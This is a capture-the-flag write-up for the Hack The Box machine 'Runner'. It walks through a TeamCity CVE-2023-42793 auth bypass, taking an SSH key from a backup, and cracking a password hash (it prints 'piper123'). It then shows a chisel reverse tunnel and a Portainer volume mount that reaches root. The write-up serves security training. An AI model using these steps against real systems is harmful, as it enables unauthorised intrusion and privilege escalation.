---
---

# HTB - Runner

NMAP


 
Add runner.htb to /etc/hosts

**<u>Subdomain enum</u>**
```bash
gobuster vhost -u http://runner.htb -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -t 64 --append-domain
```



Add teamcity.runner.htb to /etc/hosts

We get a login page



- There is an auth bypass exploit for this version of TeamCity (v.2023.05.3):
<https://attackerkb.com/topics/1XEEEkGHzt/cve-2023-42793/rapid7-analysis?referrer=etrblog#:~:text=/RPC2.-,Exploitation,-To%20leverage%20the>

- This github has a python script to exploit this automatically:
<https://github.com/H454NSec/CVE-2023-42793>







- Login to teamcity with the credentials:




- We have a backup tab in the admin console
- Click start backup, and then click the link to download the zip file:



- If we do **tree** on the extracted zip, we can see a private ssh key:



or using find and searching for key words:




```bash
chmod 600 id_rsa

```
- Find the username:
```bash
grep -rnwi . -e "username"

```


```bash
ssh -i id_rsa john@10.129.78.6

```



```bash
cat user.txt

```
- We also have a database dump in the backup file:



- Here we have a users file with hashes:



- We can crack the hash for Matthew:

```bash
hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt

```



**Matthew : piper123**

- Upload LinPEAS
From Linpeas we can see docker being used and portainer is running, as well as port 9000 is open (which is normally used by docker)

- Upload chisel and run:
```bash
./chisel client 10.10.14.29:8888 R:socks &

```
- Browse to 127.0.0.1:9000



- Log in with the matthew credentials

- We have some images available:



- First thing is to create a volume - with the following volume options:



To add volume options - Click on add driver option




- Now we can create a container to map the volume to:
Click on:


Find any of the available images and put the name in:




Command and Logging - Interactive:




And in Volumes:




- Now deploy container

- We can now click out and back in to the container we made, and console in:



- Now we can console into it and look in /mnt/root/root:

